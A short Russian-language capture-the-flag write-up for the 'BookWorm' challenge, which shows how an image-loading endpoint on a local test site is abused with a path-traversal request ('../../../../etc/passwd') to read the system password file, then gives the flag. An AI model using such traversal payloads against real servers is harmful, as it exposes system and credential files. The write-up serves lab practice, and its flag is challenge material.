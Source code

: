 # BookWorm

***Описание***: Как много книг ты прочитал за год? Я сделал подборку своих избранных книг, посмотри, может тебе они тоже понравятся!

Ссылка: `http://localhost:8080`

Формат: EclipseCTF{...}

---
### Решение

Переходим на сайт:

![ScreenShot](screenshots/BookWorm-1.png)

Смотрим, как подгружаются картинки на сайт:

![ScreenShot](screenshots/BookWorm-2.png)

```
src="/api/book/loadImage?filename=0.png"
```

Прочитаем `/etc/passwd`, эксплуатируя `Path Traversal`:

```
http://localhost:8080/api/book/loadImage?filename=../../../../etc/passwd
```

![ScreenShot](screenshots/BookWorm-3.png)

---

***Флаг***: `EclipseCTF{../e7c/p455wd_hun73r}`